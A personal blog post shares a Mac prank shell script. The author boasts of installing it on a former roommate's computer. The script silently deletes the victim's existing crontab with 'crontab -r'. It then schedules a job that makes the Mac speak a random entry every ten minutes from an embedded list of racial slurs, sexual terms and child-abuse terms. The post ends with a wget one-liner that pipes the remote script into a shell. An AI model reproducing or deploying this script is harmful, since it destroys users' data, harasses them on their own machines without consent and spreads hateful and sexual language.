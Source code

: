 ```yaml
---
layout: post
main: false
status: completed
category: tech
back: tech.html
title: tourettes.
quote: Ear muffs.
---
```


There is something so deliriously enticing about using the command `say` for devious purposes outside of its developed intentions **\[aiding the visually impaired?\]**. When I first discovered my darling Mac's capability, I believe I input `wanker` immediately; after all, what is more humourous than a bot spouting swears? I'll tell you what: a bot _uncontrollably_ spewing profanity in _ten_ minute intervals ...on a less apt technologist's Mac - say my former roommate's.

<div class="snippet">
   <pre class="terminal">
<div class="terminal-header">tourettes.sh</div>
#!/bin/bash

script=/tmp/tourettes.sh
cron=/tmp/cron

setup() {
  crontab -r
}

build_script_file() {
  echo 'swear() {' >> $1
  echo 'array=("2g1c", "2 girls 1 cup", "acrotomophilia", "anal", "anilingus", "anus", "arsehole", "ass", "asshole", "assmunch", "auto erotic", "autoerotic", "babeland", "baby batter", "ball gag", "ball gravy", "ball kicking", "ball licking", "ball sack", "ball sucking", "bangbros", "bareback", "barely legal", "barenaked", "bastardo", "bastinado", "bbw", "bdsm", "beaver cleaver", "beaver lips", "bestiality", "bi curious", "big black", "big breasts", "big knockers", "big tits", "bimbos", "birdlock", "bitch", "black cock", "blonde action", "blonde on blonde action", "blow j", "blow your l", "blue waffle", "blumpkin", "bollocks", "bondage", "boner", "boob", "boobs", "booty call", "brown showers", "brunette action", "bukkake", "bulldyke", "bullet vibe", "bung hole", "bunghole", "busty", "butt", "buttcheeks", "butthole", "camel toe", "camgirl", "camslut", "camwhore", "carpet muncher", "carpetmuncher", "chocolate rosebuds", "circlejerk", "cleveland steamer", "clit", "clitoris", "clover clamps", "clusterfuck", "cock", "cocks", "coprolagnia", "coprophilia", "cornhole", "cum", "cumming", "cunnilingus", "cunt", "darkie", "date rape", "daterape", "deep throat", "deepthroat", "dick", "dildo", "dirty pillows", "dirty sanchez", "dog style", "doggie style", "doggiestyle", "doggy style", "doggystyle", "dolcett", "domination", "dominatrix", "dommes", "donkey punch", "double dong", "double penetration", "dp action", "eat my ass", "ecchi", "ejaculation", "erotic", "erotism", "escort", "ethical slut", "eunuch", "faggot", "fecal", "felch", "fellatio", "feltch", "female squirting", "femdom", "figging", "fingering", "fisting", "foot fetish", "footjob", "frotting", "fuck", "fuck buttons", "fudge packer", "fudgepacker", "futanari", "g-spot", "gang bang", "gay sex", "genitals", "giant cock", "girl on", "girl on top", "girls gone wild", "goatcx", "goatse", "gokkun", "golden shower", "goo girl", "goodpoop", "goregasm", "grope", "group sex", "guro", "hand job", "handjob", "hard core", "hardcore", "hentai", "homoerotic", "honkey", "hooker", "hot chick", "how to kill", "how to murder", "huge fat", "humping", "incest", "intercourse", "jack off", "jail bait", "jailbait", "jerk off", "jigaboo", "jiggaboo", "jiggerboo", "jizz", "juggs", "kike", "kinbaku", "kinkster", "kinky", "knobbing", "leather restraint", "leather straight jacket", "lemon party", "lolita", "lovemaking", "make me come", "male squirting", "masturbate", "menage a trois", "milf", "missionary position", "motherfucker", "mound of venus", "mr hands", "muff diver", "muffdiving", "nambla", "nawashi", "negro", "neonazi", "nig nog", "nigga", "nigger", "nimphomania", "nipple", "nipples", "nsfw images", "nude", "nudity", "nympho", "nymphomania", "octopussy", "omorashi", "one cup two girls", "one guy one jar", "orgasm", "orgy", "paedophile", "panties", "panty", "pedobear", "pedophile", "pegging", "penis", "phone sex", "piece of shit", "piss pig", "pissing", "pisspig", "playboy", "pleasure chest", "pole smoker", "ponyplay", "poof", "poop chute", "poopchute", "porn", "porno", "pornography", "prince albert piercing", "pthc", "pubes", "pussy", "queef", "raghead", "raging boner", "rape", "raping", "rapist", "rectum", "reverse cowgirl", "rimjob", "rimming", "rosy palm", "rosy palm and her 5 sisters", "rusty trombone", "sadism", "scat", "schlong", "scissoring", "semen", "sex", "sexo", "sexy", "shaved beaver", "shaved pussy", "shemale", "shibari", "shit", "shota", "shrimping", "slanteye", "slut", "smut", "snatch", "snowballing", "sodomize", "sodomy", "spic", "spooge", "spread legs", "strap on", "strapon", "strappado", "strip club", "style doggy", "suck", "sucks", "suicide girls", "sultry women", "swastika", "swinger", "tainted love", "taste my", "tea bagging", "threesome", "throating", "tied up", "tight white", "tit", "tits", "titties", "titty", "tongue in a", "topless", "tosser", "towelhead", "tranny", "tribadism", "tub girl", "tubgirl", "tushy", "twat", "twink", "twinkie", "two girls one cup", "undressing", "upskirt", "urethra play", "urophilia", "vagina", "venus mound", "vibrator", "violet blue", "violet wand", "vorarephilia", "voyeur", "vulva", "wank", "wet dream", "wetback", "white power", "women rapping", "wrapping men", "wrinkled starfish", "xx", "xxx", "yaoi", "yellow showers", "yiffy", "zoophilia")' >> $1
  echo 'exec say ${array[$((RANDOM %= $((${#array[@]}))))]}' >> $1
  echo '}' >> $1
  echo 'swear' >> $1
  chmod a+x $1
}

build_crontab_file () {
  echo "*/$1 * * * * $2" >> $3
  crontab $3
}

cleanup() {
  rm $1
}

# Remove the user's current cron.
setup

# Create a script in the tmp directory.
build_script_file "$script"

# Create a new crontab with script in tmp directory.
build_crontab_file "10" "$script" "$cron"

# Remove temp cron file.
cleanup "$cron"
    </pre>
</div>

This [little diddy](http://en.wikipedia.org/wiki/Diddy_Kong) was meant to be more refined, but it turned out to be quite difficult to check if a user had a crontab enabled, grab the contents of the current crontab, edit them, then save - all without `sudo` access. So, I settled on _brute_ force. Run it. Enjoy it.

<div class="snippet">
   <pre class="terminal">
<div class="terminal-header"><i>terminal</i></div>
wget http://frank.lovecch.io/scripts/tourettes.sh -O - | sh
   </pre>
</div>